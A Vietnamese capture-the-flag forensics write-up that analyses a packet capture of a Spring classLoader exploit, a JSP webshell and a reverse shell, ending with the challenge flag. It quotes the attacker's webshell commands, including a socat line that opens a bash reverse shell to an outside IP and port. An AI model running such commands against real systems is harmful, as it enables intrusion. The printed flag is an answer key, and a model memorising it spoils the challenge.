







# Challenge Wrong Spooky Season

## 1. Đầu vào challenge

Đầu vào challenge cung cấp file `capture.pcap`.

Thử mở file đó bằng Wireshark, sau đó vào mục **Statistics** để kiểm tra thì thấy chủ yếu các resource có định dạng như:

- `html`
- `jpeg`
- ...



---

## 2. Hướng phân tích ban đầu

Đoán rằng attacker đang cố gắng tương tác với web, vì vậy nên thử dùng bộ filter:

```text
http.request
```

để kiểm tra xem có traffic HTTP và đồng thời lọc bớt các response rác.



Sau khi kiểm tra, nhận thấy chủ yếu các request `GET` đều là các request bình thường tới web, nhưng có 2 request `POST` cần chú ý hơn.



---

## 3. Phân tích phần exploit

Nhận thấy có payload đang cố exploit các object của server và cố gắng tải lên một webshell bằng file `.jsp` (**Java Server Pages**).



Nếu file này được ghi vào web root, attacker có thể truy cập qua URL để tiếp tục tấn công vào server.

Tiếp tục sử dụng bộ filter:

```text
http.request.uri contains ".jsp"
```



---

## 4. Từ webshell sang reverse shell

Từ các request `.jsp`, thấy được attacker đang dùng webshell để ra lệnh cho máy nạn nhân mở một TCP shell sang máy attacker.

Tiếp tục dùng filter:

```text
ip.addr == 192.168.1.180 && tcp.port == 1337
```



Check traffic của kết nối này thì thấy có một đoạn Base64.  
Đảo ngược chuỗi Base64 đó rồi decode thì thu được flag.



---

## 5. Flag

```text
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

---

## 6. Flow phân tích

```text
[1] Mở capture.pcap
        |
        v
[2] Statistics -> Protocol Hierarchy
        |
        +--> thấy HTTP + HTML Form URL Encoded
        |
        v
[3] Filter: http
        |
        +--> thấy web app /spookhouse
        |
        v
[4] Filter: http.request.method == "POST"
        |
        +--> Follow HTTP Stream
        |
        +--> thấy payload class.module.classLoader...
        |
        v
[5] Suy ra: attacker exploit Java/Spring/Tomcat
        |
        +--> tạo file JSP web shell
        |
        v
[6] Filter: http.request.uri contains ".jsp"
        |
        +--> thấy:
        |    - ?cmd=whoami
        |    - ?cmd=id
        |    - ?cmd=apt -y install socat
        |    - ?cmd=socat TCP:192.168.1.180:1337 EXEC:bash
        |
        v
[7] Suy ra: attacker chuyển từ web shell sang reverse shell
        |
        v
[8] Filter: tcp.port == 1337
        |
        +--> Follow TCP Stream
        |
        v
[9] Thấy lệnh / dữ liệu shell
        |
        +--> có chuỗi echo "..." | rev
        |
        v
[10] Đảo chuỗi lại
        |
        +--> ra Base64
        |
        v
[11] Decode Base64
        |
        v
[12] Lấy flag
```
---
